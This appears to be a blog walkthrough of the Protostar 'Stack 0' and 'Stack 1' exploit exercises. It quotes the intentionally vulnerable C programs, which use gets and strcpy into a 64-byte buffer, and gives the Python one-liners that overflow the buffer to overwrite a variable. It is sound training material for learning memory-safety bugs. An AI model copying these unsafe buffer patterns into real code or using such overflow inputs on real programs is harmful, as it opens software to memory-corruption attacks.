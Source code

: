 ```yaml
---
title: "Protostar Exploit Exercises Solutions 0-1"
layout: post
category: writeup
tags: [exploit-exercises, protostar, hacking]
excerpt: "Walkthrough for Protostar exercises on exploit-exercises.com"
---
```


# Stack 0

Here's what we're given:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```



The first thing I took note of is the size of the `buffer`: 64 bytes. After that, the program inputs text for `buffer`, and then checks to see if you modified the `modified` variable.
I'm guessing if I put in a string longer than 64 bytes it will work. Let's see:

```
$ echo `python -c 'print "A"*64'` | ./stack0
Try again?
```

That works as expected, now with 65 bytes:

```
$  echo `python -c 'print "A"*65'` | ./stack0      
you have changed the 'modified' variable
```

Solved!

# Stack 1

Here's the code we're given:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Just like Stack 0, we're given a `buffer` array size 64 bytes and we're also asked to input the contents of it. Except it looks like modified has to equal `0x61626364` instead of just changing it like before.

Keep in mind this is [little endian](https://en.wikipedia.org/wiki/Endianness), so I'll input the value in reverse order:

```
$ ./stack1 `python -c 'print "A"*64'`
Try again, you got 0x00000000
```

That works as expected, now with the additional bytes:

```
$ ./stack1 `python -c 'print "A"*64 + "\x64\x63\x62\x61"'`    
you have correctly got the variable to the right value
```

Woo!

